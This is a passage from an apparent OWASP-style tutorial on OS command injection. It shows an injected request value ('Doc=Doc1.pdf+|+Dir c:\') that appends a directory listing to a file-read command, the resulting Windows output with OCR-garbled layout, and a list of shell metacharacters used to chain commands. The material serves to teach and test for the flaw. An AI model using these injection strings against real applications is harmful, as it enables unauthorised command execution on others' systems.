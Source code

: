 Doc=Doc1.pdf+|+Dir c:\

  
If the application doesn't validate the request, we can obtain the following result:

Exec Results for 'cmd.exe /c type "C:\httpd\public\doc\"Doc=Doc1.pdf+|+Dir c:\'
Output...
Il volume nell'unità C non ha etichetta.
Numero di serie Del volume: 8E3F-4B61
Directory of c:\
 18/10/2006 00:27 2,675 Dir_Prog.txt
 18/10/2006 00:28 3,887 Dir_ProgFile.txt
 16/11/2006 10:43
    Doc
    11/11/2006 17:25
       Documents and Settings
       25/10/2006 03:11
          I386
          14/11/2006 18:51
	     h4ck3r
	     30/09/2005 21:40 25,934 
		OWASP1.JPG
		03/11/2006 18:29
			Prog
			18/11/2006 11:20
				Program Files
				16/11/2006 21:12
					Software
					24/10/2006 18:25
						Setup
						24/10/2006 23:37
							Technologies
							18/11/2006 11:14	
							3 File 32,496 byte
							13 Directory 6,921,269,248 byte disponibili
							Return code: 0

  
In this case, we have successfully performed an OS injection attack.

## Special Characters for Comand Injection

The following special character can be used for command injection such as |  ; & $ > < ` \ !

- cmd1|cmd2  : Uses of | will make command 2 to be executed weather command 1 execution is successful or not.

- cmd1;cmd2  : Uses of ; will make command 2 to be executed weather command 1 execution is successful or not.
- cmd1||cmd2  : Command 2 will only be executed if command 1 execution fails.
- cmd1&&cmd2 : Command 2 will only be executed if command 1 execution succeeds.
- $(cmd) : For example, echo $(whoami) or $(touch test.sh; echo 'ls' > test.sh)
- 'cmd' : It's used to execute specific command. For example, 'whoami'
- >(cmd): <(ls)
- <(cmd): >(ls)
